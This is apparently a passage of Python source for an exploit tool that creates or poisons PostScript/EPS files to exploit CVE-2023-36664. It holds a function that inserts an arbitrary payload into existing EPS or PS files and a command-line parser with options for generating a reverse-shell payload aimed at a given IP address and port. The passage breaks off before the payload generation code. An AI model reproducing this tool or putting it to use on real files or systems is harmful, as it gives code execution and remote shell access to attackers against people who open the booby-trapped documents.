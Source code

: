 # Function to inject payload into an existing file
def inject_payload_into_file(filename, payload):
    # Check if the file has the .eps or .ps extension
    if filename.lower().endswith('.eps'):
        # Read the existing content of the EPS file
        with open(filename, 'r') as eps_file:
            lines = eps_file.readlines()

        # Find the first line not starting with %
        for i, line in enumerate(lines):
            if not line.strip().startswith('%'):
                # Insert the payload at this line
                lines.insert(i, payload + '\n')
                break

        # Write the modified content back to the file
        with open(filename, 'w') as eps_file:
            eps_file.writelines(lines)
    elif filename.lower().endswith('.ps'):
        # Append payload to the end of the PS file
        with open(filename, 'a') as ps_file:
            ps_file.write('\n' + payload)
    else:
        print("[-] Only PS and EPS extensions are allowed.")
        

# Main function
def main():
    parser = argparse.ArgumentParser(description="Creating malicious PS/EPS files exploiting CVE-2023-36664.")
    parser.add_argument("-g", "--generate", action="store_true", help="Generate a new file")
    parser.add_argument("-i", "--inject", action="store_true", help="Inject payload into an existing file")
    parser.add_argument("-p", "--payload", help="Payload to inject")
    parser.add_argument("-r", "--revshell", action="store_true", help="Generate reverse shell payload")
    parser.add_argument("-ip", "--ip", help="IP address for reverse shell payload")
    parser.add_argument("-port", "--port", help="Port number for reverse shell payload")
    parser.add_argument("-x", "--extension", choices=["ps", "eps"], help="Extension for the generated file")
    parser.add_argument("-f", "--filename", default="malicious", help="Filename for the generated or injected file")
